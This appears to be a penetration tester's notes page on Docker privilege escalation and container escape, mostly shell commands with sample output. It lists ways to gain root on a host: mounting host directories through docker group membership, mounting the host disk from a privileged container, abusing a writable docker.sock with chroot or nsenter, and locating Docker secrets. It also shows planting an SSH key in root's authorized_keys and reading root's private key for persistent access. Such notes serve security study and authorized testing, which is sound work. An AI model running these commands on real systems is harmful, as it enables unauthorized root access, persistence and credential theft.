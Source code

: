 Operator Handbook pg 64

https://gtfobins.github.io/gtfobins/docker/


---
#### Docker.sock
```
find / -name "docker.sock" 2>/dev/null
```

>/run/docker.sock

[[Matrimony]]

---

[https://www.hackingarticles.in/docker-privilege-escalation/](https://www.hackingarticles.in/docker-privilege-escalation/)

```
id
```

`uid=1000 id=1000(alfred) groups=1000(alfred),122(docker)`

```
docker ps --all
```

```bash - kali
docker run -v /root:/mnt -it alpine
```

```bash - kali
docker run -v /etc/:/mnt -it alpine
```

```bash - kali
cd /mnt
```

```bash - kali
ls
```

#### Privileged

When a docker container is running in privileged mode and root access is acquired, escaping the container is then possible. We try to mount the / directory of the host, inside the docker container. But first, we need to execute the following command, in order to get the name of the partition that we are going to mount.

```bash - target
lsblk
```

`|-sda2 8:2 @ 20G 0 part /var/opt/gitlab`

Let's try to mount the partition sda2 into the directory /mnt .

```bash - target
mount /dev/sda2 /mnt -o loop6
```

```bash - target
ls -l /mnt
```

The / directory is mounted successfully. We create SSH keys for the host user root .

```bash - target
ssh-keygen -f /mnt/root/.ssh/id_rsa -P ""
```

```bash - target
cp /mnt/root/.ssh/id_rsa.pub /mnt/root/.ssh/authorized_keys
```

```bash - target
cat /mnt/root/.ssh/id_rsa
```

We store the key in a file locally and name it id_rsa and give the appropriate permissions.

[[Port 22 - SSH  ~#id_rsa]]

#### /var/run/docker.sock is writable
```bash - kali
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
```

```bash - kali
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```

####
Try to see Docker secret locations or names:
```
$ docker secret ls
```

Linux Docker Secrets Locations:
```
/run/secrets/<secret_name>
```

Windows Docker Secrets Locations:
```
C:\ProgramData\Docker\internal\secrets
```

```
C:\ProgramData\Docker\secrets
```


---
```
ls -lah /
```

Notice the hidden .dockerenv file.  Given that and the host name "0873e8062560", we are likely inside of a docker container.

`...`
`.dockerenv`
`...`

```bash - target
fdisk -l
```

`/dev/sda1     *     2048     37750783  37748736   18G  83  Linux`

```bash - target
mkdir /mnt/own
```

```bash - target
mount /dev/sda1 /mnt/own
```

```bash - target
cd /mnt/own
```

```bash - target
cd root
```

```bash - target
ls -lah
```

